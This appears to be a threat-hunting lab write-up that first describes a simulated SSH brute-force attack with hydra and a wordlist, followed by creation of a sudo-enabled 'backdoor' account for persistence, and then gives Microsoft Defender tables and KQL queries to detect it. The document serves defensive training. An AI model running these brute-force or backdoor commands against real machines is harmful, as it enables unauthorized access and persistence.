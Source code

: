 # Threat Event (Brute Force)

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Create a wordlist for brute force attempt. `nano ~/custom-wordlist.txt`
2. Install hydra for brute force attack against "target machine". `sudo apt install hydra`
3. Execute hydra using the wordlist to get the correct password. `hydra -l <victim username> -P ~/custom-wordlist.txt ssh://victim IP`
4. SSH to target machine. `ssh user@target IP`
5. Create backdoors for persistence:
```
sudo useradd -m backdoor
sudo passwd backdoor
sudo usermod -aG sudo backdoor
```

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect the execution of suspicious processes, such as reverse shells and backdoor scripts. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceNetworkEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose** | Used to detect suspicious network connections, such as outbound connections to external IPs or internal network communications, which could indicate data exfiltration or lateral movement. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceFileEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose** | Used to detect file creations, modifications, or suspicious file activity, such as setting up backdoor scripts and creating SSH key files for unauthorized access. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceLogonEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose** | Used to detect failed login attempts, brute force attacks, and logon activity from suspicious or unauthorized accounts. |

---

## Related Queries:

```kql
// Detect login events, such as login failures or successes.
DeviceLogonEvents
| where ActionType == "LogonFailed" or ActionType == "LogonSuccess"
| summarize FailedAttempts = count() by AccountName, DeviceName, bin(Timestamp, 5m)
| where FailedAttempts > 5

// Detect the copying, moving and/or encryption of files.
DeviceFileEvents
| project Timestamp, DeviceId, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessAccountDomain, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessId

// Detect processes that might have been initiated be a malicious actor. 
DeviceProcessEvents
| project Timestamp, DeviceName, AccountName, ProcessCommandLine

// Detect network events from known IP ranges
DeviceNetworkEvents
| where ActionType == "ConnectionSuccess"
| where RemoteIP != "Internal"  
| project Timestamp, DeviceName, RemoteIP, RemotePort, Protocol, InitiatingProcessAccountName
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: Febuary 8, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
